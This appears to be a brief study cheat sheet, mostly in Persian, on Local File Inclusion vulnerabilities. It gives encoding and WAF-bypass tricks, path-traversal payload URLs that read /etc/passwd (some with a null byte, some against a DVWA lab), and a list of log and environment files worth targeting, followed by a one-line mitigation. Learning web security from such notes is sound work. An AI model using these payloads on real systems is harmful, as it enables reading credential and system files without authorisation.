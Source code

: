 # Local File Inclusion

## Concept
- از این آسیب پذیری  برای خواند فایل های تنظیمات روی hosting machine استفاده می شود
- همچنین فایل های تصادفی مانند /etc/passwd
- همچنین ممکن است منجر به Information Disclosure شود
- در LFI می توانیم فایل اجرا کنیم ولی در Directory Traversal فقط می توانیم فایل های روی سرور را بخوانیم

## Bypass
- Encoding
  - ```.``` => %2e
  - ```/``` => %2f
  - ```../``` => %2e%2e%2f
- WAF Bypass
  - ```../``` => ```..././``` 
  - ```../``` => ```....//``` 

## Exploit
  - ```example1.php?page=intro.php../../../../../etc/passwd```
  - ```example2.php?page=intro../../../../../../../../../../etc/passwd%00``` 
  - ```example2.php?page=intro%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd%00``` 
  - ```localhost/dvwa/vulnerabilities/fi/?page=..././..././phpinfo.php```
  - ```localhost/dvwa/vulnerabilities/fi/?page=file:////opt/lampp/htdocs/dvwa/phpinfo.php```

## Intersting files
  - ```/proc/self/environ```
  - ```/var/log/auth.log```
  - ```/var/log/apache2/access.log```
  
## Mitigation
  - Use static file inclusion. hard code the fiels that we want to include in the code.
